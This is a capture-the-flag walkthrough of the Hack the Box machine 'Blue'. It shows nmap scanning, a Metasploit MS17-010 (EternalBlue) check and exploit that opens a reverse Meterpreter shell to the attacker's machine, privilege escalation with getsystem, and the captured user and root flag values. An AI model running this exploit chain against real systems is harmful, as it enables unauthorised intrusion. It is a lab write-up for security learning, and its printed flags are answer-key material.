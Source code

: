 ```yaml
---
title: Blue, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-03-04-blue-hack-the-box-walkthrough/blue.png
layout: post
description: ""
date:   2021-03-03 20:01:21 -0400
last-updated: 2021-03-03 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: Blue is an easy level machine in the Hack the Box retired archives requiring simple enumeration and basic level understanding of metasploit
card: card-2
---
```


Blue is an easy level machine in the Hack the Box retired archives. This machine requires a simple enumeration scan to identify services and versions, and knowledge of using pre-configured metasploit modules to exploit a well-known vulnerability. The title of this box should be a major clue to what vulnerabilities might exist. 

## Enumeration  

First, I used nmap and the nmapAutomator script to search the target for open ports, running services, and their corresponding service versions. 

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ nmapAutomator.sh 10.10.10.226 All
```  

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.40                                                                                                    1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:24 EST
Nmap scan report for 10.10.10.40
Host is up (0.055s latency).
Not shown: 191 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

The resulting output shows the target was running windows microsoft-ds,netbios, and msrpc. I had a feeling this machine was vulnerable to eternal blue due to the box title. To check my assumption, I opened up metasploit and used a `check` option in one of the ms17_010 related modules. After setting the RHOST to the target, the check revealed it was likely vulnerable. 

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
msf6 exploit(windows/smb/ms17_010_psexec) > 
```

## Selecting a Public Exploit  

There are a few metasploit modules which can be used to root a machine vulnerable to eternal blue, i decided to use the `windows/smb/ms17_010_psexec` module. After opening the msfconsole, and selecting the psexec module, I configured the options to use the target as the RHOST and my machine as the LHOST. Running the exploit was successful.

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.40:49161) at 2021-03-04 15:11:16 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

## Finding Flags  

I stayed in the meterpreter shell to navigate the target and search for flags. Using the search meterpreter command, I found both the user and root flag files.

```bash
meterpreter > search -f *user.txt*
Found 3 results...
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (909 bytes)
    c:\Users\haris\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (556 bytes)
    c:\Users\haris\Desktop\user.txt (32 bytes)
meterpreter > type "c:\Users\haris\Desktop\user.txt"
[-] Unknown command: type.
meterpreter > cat "c:\Users\haris\Desktop\user.txt"
4c546aea7dbee75cbd71de245c8deea9meterpreter > 
```  

```bash
meterpreter > search -f "root.txt"
Found 1 result...
    c:\Users\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"
ff548eb71e920ff6c08843ce9df4e717meterpreter > 
```
